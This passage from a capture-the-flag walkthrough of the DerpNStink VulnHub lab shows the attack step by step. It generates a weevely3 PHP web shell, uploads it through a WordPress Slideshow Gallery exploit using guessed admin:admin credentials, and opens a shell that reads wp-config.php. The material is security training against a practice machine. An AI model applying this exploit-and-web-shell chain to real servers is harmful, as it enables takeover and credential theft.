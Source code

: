 This means you have to check all inputs you get from a user. Really, do it!  
[Here](https://www.exploit-db.com/exploits/34681/) is a Python script to upload a file via a vulnerability. Hooray!
To gain access to the server's system I'll upload a PHP shell which is able to get a working shell on the system. I use [weevely3](https://github.com/epinna/weevely3) to gain that goal. This a very tiny shell to where I will connect. We use it like that in our scenario:
```
root@kali:~/tools/weevely3# ./weevely.py generate r00t agent.php
Generated 'agent.php' with password 'r00t' of 675 byte size.
```
But wait, we need login credentials to be able to use the exploit. The scan of `wpscan` shows that two users are existing, `admin` and `unclestinky`. With some luck I got `admin:admin`, very secure! Upload the shell:
```
root@kali:~/pentesting/vulnhub/derpnstink# python wp_gallery_slideshow_146_suv.py -u admin -p admin -t http://derpnstink.local/weblog/ -f agent.php
[...]
[+] Username & password ACCEPTED!

[!] Shell Uploaded!
[+] Check url: http://derpnstink.local/weblog//wp-content/uploads/slideshow-gallery/agent.php (lowercase!!!!)
```
Use it:
```
root@kali:~/tools/weevely3# ./weevely.py http://derpnstink.local/weblog//wp-content/uploads/slideshow-gallery/agent.php r00t

[+] weevely 3.6

[+] Target:	www-data@DeRPnStiNK:/var/www/html/weblog/wp-content/uploads/slideshow-gallery
[+] Session:	/root/.weevely/sessions/derpnstink.local/agent_0.session
[+] Shell:	System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely>
www-data@DeRPnStiNK:/var/www/html/weblog/wp-content/uploads/slideshow-gallery $ cd ../../
www-data@DeRPnStiNK:/var/www/html/weblog/wp-content $ cd ../
www-data@DeRPnStiNK:/var/www/html/weblog $ ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
www-data@DeRPnStiNK:/var/www/html/weblog $ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
```